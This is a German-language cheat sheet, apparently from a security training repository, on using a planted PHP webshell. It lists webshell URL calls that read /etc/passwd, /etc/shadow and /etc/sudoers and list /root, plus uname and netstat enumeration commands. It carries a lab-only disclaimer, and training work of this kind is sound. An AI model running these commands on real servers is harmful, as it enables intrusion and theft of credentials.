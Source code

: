 # 🐚 PHP Webshell – Usage & Enumeration Guide


---

## Inhaltsverzeichnis
- [Einleitung](#einleitung)
- [Beispielhafte Webshell-Aufrufe](#beispielhafte-webshell-aufrufe)
- [Systeminformationen ermitteln](#systeminformationen-ermitteln)
- [Netzwerküberblick](#netzwerküberblick)
- [Typische Ziele nach Webshell-Zugriff](#typische-ziele-nach-webshell-zugriff)
- [Siehe auch](#siehe-auch)
- [Haftungsausschluss](#haftungsausschluss)

---

## Einleitung

Diese Datei dokumentiert typische **Post-Exploitation-Kommandos**, die nach erfolgreicher Platzierung einer PHP-Webshell (`cmdshell.php3`) ([mehr zu cmdshell](/03-web-security/phpWebShell/php_rce_cheat_sheet.md)) auf einem Zielsystem ausgeführt werden können.  
Der Zugriff erfolgt über einen GET-Parameter `cmd`, der Systembefehle auf dem Server ausführt.

> ⚠️ Hinweis: Diese Vorgehensweise dient ausschließlich Schulungs- und Testzwecken innerhalb legaler Testumgebungen oder CTF-Szenarien.

---

## Beispielhafte Webshell-Aufrufe

Die folgenden URLs zeigen den Zugriff auf die Webshell:

```bash
http://192.168.1.51/admin/uploads/cmdshell.php3?cmd=[COMMAND]
```

**Beispielhafte Kommandos:**
```bash
http://192.168.1.51/admin/uploads/cmdshell.php3?cmd=cat /etc/passwd
http://192.168.1.51/admin/uploads/cmdshell.php3?cmd=cat /etc/shadow
http://192.168.1.51/admin/uploads/cmdshell.php3?cmd=cat /etc/group
http://192.168.1.51/admin/uploads/cmdshell.php3?cmd=cat /etc/group | grep admin
http://192.168.1.51/admin/uploads/cmdshell.php3?cmd=cat /etc/sudoers
```
**Dateisystem & Benutzerverzeichnisse durchsuchen:**
```bash
http://192.168.1.51/admin/uploads/cmdshell.php3?cmd=ls -la /var/www
http://192.168.1.51/admin/uploads/cmdshell.php3?cmd=ls -la /home
http://192.168.1.51/admin/uploads/cmdshell.php3?cmd=ls -la /root
http://192.168.1.51/admin/uploads/cmdshell.php3?cmd=id
```

---

<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Systeminformationen ermitteln

```bash
uname -a        # vollständige Systeminformationen
uname -s        # Kernel-Name
uname -n        # Netzwerkname des Hosts
uname -r        # Kernel-Version
uname -v        # Kernel-Build
uname -m        # Architektur (z. B. x86_64)
uname -p        # Prozessor
uname -i        # Hardware-Plattform

pwd             # aktuelles Verzeichnis
whoami          # aktueller Benutzer
```

---

## Netzwerküberblick

### Netstat-Befehle zur Analyse aktiver Verbindungen:

```bash
netstat         # allgemeine Übersicht
netstat -a      # alle Verbindungen und Ports
netstat -at     # nur TCP
netstat -au     # nur UDP
netstat -l      # nur "listening" Ports
netstat -lp     # mit Prozessinfos (sofern verfügbar)
```

---

<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Typische Ziele nach Webshell-Zugriff

| Ziel            | Zielsetzung                     |
| --------------- | ------------------------------- |
| `/etc/passwd`   | Benutzerkonten einsehen         |
| `/etc/shadow`   | Passwort-Hashes (nur als root)  |
| `/etc/group`    | Gruppenzugehörigkeiten          |
| `/etc/sudoers`  | Sudo-Rechte prüfen              |
| `/var/www/`     | Web-Inhalte durchsuchen         |
| `/home/`        | Benutzerverzeichnisse einsehen  |
| `/root/`        | Admin-Account analysieren       |
| `id`, `whoami`  | User-Kontext prüfen             |
| `netstat`, `ss` | Netzwerkservices identifizieren |
| `uname -a`      | Systemplattform identifizieren  |

---

## Siehe auch
- [php_rce_cheat_sheet.md](/03-web-security/phpWebShell/php_rce_cheat_sheet.md)
- [sql_injection_to_shell.md](/03-web-security/sql-injection/sql_injection_to_shell.md)
- [post_exploitation_tools.md](/04-os-enumeration/post_exploitation_tools.md)

----

## Haftungsausschluss

Dieses Repository dient ausschließlich zu Ausbildungs-, Forschungs- und Demonstrationszwecken im Bereich der IT-Sicherheit.

Alle hier dokumentierten Techniken und Tools dürfen nur in legalen und autorisierten Testumgebungen verwendet werden – z. B. in Labors, CTFs oder mit ausdrücklicher Genehmigung des Eigentümers der Zielsysteme.

Wir distanzieren uns ausdrücklich von jeglicher illegalen Nutzung.
Dieses Projekt richtet sich an White-Hat-Sicherheitsforscher, Ethical Hacker und Auszubildende, die ethisch und rechtlich korrekt handeln.

[Disclaimer](/00-disclaimer/disclaimer.md)

--- 

<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

Stay curious – stay secure. 🔐

🗓️ **Letzte Aktualisierung:** August 2025  
🤝 **Pull Requests willkommen** – Vorschläge für neue Kurse oder Kategorien gerne einreichen!

---